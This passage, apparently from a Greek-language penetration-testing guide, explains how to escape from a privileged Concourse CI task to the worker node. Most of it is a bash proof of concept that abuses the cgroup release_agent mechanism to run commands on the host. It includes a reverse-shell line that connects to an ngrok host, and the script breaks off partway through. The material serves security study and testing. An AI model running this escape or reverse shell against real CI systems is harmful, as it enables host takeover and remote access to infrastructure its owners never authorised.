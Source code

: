 ```bash
fly -t tutorial execute --privileged --config task_config.yml
```
#### Διαφυγή στον κόμβο από προνομιούχα εργασία

Στις προηγούμενες ενότητες είδαμε πώς να **εκτελέσουμε μια προνομιούχα εργασία με το concourse**. Αυτό δεν θα δώσει στο κοντέινερ ακριβώς την ίδια πρόσβαση όπως η προνομιούχα σημαία σε ένα κοντέινερ docker. Για παράδειγμα, δεν θα δείτε τη συσκευή του συστήματος αρχείων του κόμβου στο /dev, οπότε η διαφυγή θα μπορούσε να είναι πιο "πολύπλοκη".

Στην παρακάτω PoC θα χρησιμοποιήσουμε τον release\_agent για να διαφύγουμε με κάποιες μικρές τροποποιήσεις:
```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the memory cgroup controller, try change memory to rdma to fix it
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release


# CHANGE ME
# The host path will look like the following, but you need to change it:
host_path="/mnt/vda1/hostpath-provisioner/default/concourse-work-dir-concourse-release-worker-0/overlays/ae7df0ca-0b38-4c45-73e2-a9388dcb2028/rootfs"

## The initial path "/mnt/vda1" is probably the same, but you can check it using the mount command:
#/dev/vda1 on /scratch type ext4 (rw,relatime)
#/dev/vda1 on /tmp/build/e55deab7 type ext4 (rw,relatime)
#/dev/vda1 on /etc/hosts type ext4 (rw,relatime)
#/dev/vda1 on /etc/resolv.conf type ext4 (rw,relatime)

## Then next part I think is constant "hostpath-provisioner/default/"

## For the next part "concourse-work-dir-concourse-release-worker-0" you need to know how it's constructed
# "concourse-work-dir" is constant
# "concourse-release" is the consourse prefix of the current concourse env (you need to find it from the API)
# "worker-0" is the name of the worker the container is running in (will be usually that one or incrementing the number)

## The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
```